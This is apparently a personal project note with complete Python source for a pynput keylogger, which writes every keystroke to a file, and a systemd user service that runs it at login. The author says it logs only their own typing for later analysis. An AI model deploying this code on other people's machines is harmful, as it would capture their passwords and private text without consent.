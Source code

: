 ```yaml
---
share: true
uuid: 03ce87b5-898b-4e7a-9c47-6694c8d652fe
title: DIY Keylogger
---
```

## Description

The goal of this project is to install a key logger on myself so I can later do analysis on the data I generate. **Beware** running this will log your passwords to a file in user space unless you remember to turn it off and on.

## Install Instructions

``` bash
python3 -m pip install pynput 
nano keylogger.py
# Copy Contents from below into file
sudo cp keylogger.py /opt
mkdir -p ~/.config/systemd/user
nano keylogger.service
# Copy Contents from below into file
envsubst < keylogger.service > temp.txt && mv temp.txt keylogger.service
cat keylogger.service
cp keylogger.service ~/.config/systemd/user/keylogger.service

# Start Keylogger
systemctl --user start keylogger.service

# Enable keylogger on startup
systemctl --user enable keylogger.service

# Check if keylogger is running
systemctl --user status keylogger.service

# Stop keylogger
systemctl --user stop keylogger.service

# To update keylogger.py script
systemctl --user daemon-reload
systemctl --user restart keylogger.service

# Check keylogger logs
cd ~/keylogger
ls
cat key*
```

## keylogger.py

``` python    
#!/bin/python3
# keylogger.py
import importlib

def check_and_install_dependency(package):
    try:
        importlib.import_module(package)
        print(f"{package} is already installed.")
    except ImportError:
        print(f"{package} is not installed. Installing...")
        try:
            import pip
            pip.main(['install', package])
            print(f"{package} has been successfully installed.")
        except ImportError:
            print("pip is not installed. Please install pip and try again.")
            return

    print(f"Loading {package}...")
    importlib.import_module(package)
    print(f"{package} has been loaded successfully.")
check_and_install_dependency('pynput')

from pynput import keyboard
import logging
import os
import socket
import sys

log_dir = "/home/paul/Documents/Software/keylogger"
if len(sys.argv) > 1:
    log_dir = sys.argv[1]
print(f"{log_dir}/keyLog-{str(socket.gethostname())}.txt")
try:
	os.makedirs(log_dir)
except:  
    print(f'PATH {str(log_dir)} already exists')
logging.basicConfig(filename = f"{log_dir}/keyLog-{str(socket.gethostname())}.txt", 
    level=logging.DEBUG, format='%(asctime)s: %(message)s')


def get_key_name(key):
    if isinstance(key, keyboard.KeyCode):
        return key.char
    else:
        return str(key)

def on_press(key):
    key_name = get_key_name(key)
    logging.info('Key {} pressed.'.format(key_name))
    print(key_name)

def on_release(key):
    key_name = get_key_name(key)
    logging.info('Key {} released.'.format(key_name))

with keyboard.Listener(
    on_press = on_press,
    on_release = on_release) as listener:
    listener.join()
    
```

## keylogger.service

``` service
# keylogger.service
[Unit]
Description=Keylogger Service
# Requires=display-manager.service
# After=display-manager.service

[Service]
ExecStart=/usr/bin/python3 /opt/keylogger.py $HOME/keylogger

[Install]
WantedBy=multi-user.target
```


## Links

* [Keylogger Binding](/23b9004c-6bb4-4bc8-a79a-d27e2fb4f35c)
* [keylogger research](/undefined)

## Sources

* [Design a Keylogger in Python](https://www.tutorialspoint.com/design-a-keylogger-in-python)
* [Logging in Python – Real Python](https://realpython.com/python-logging/)
* [ChatGPT - A ShareGPT conversation](https://sharegpt.com/c/al2TNIJ)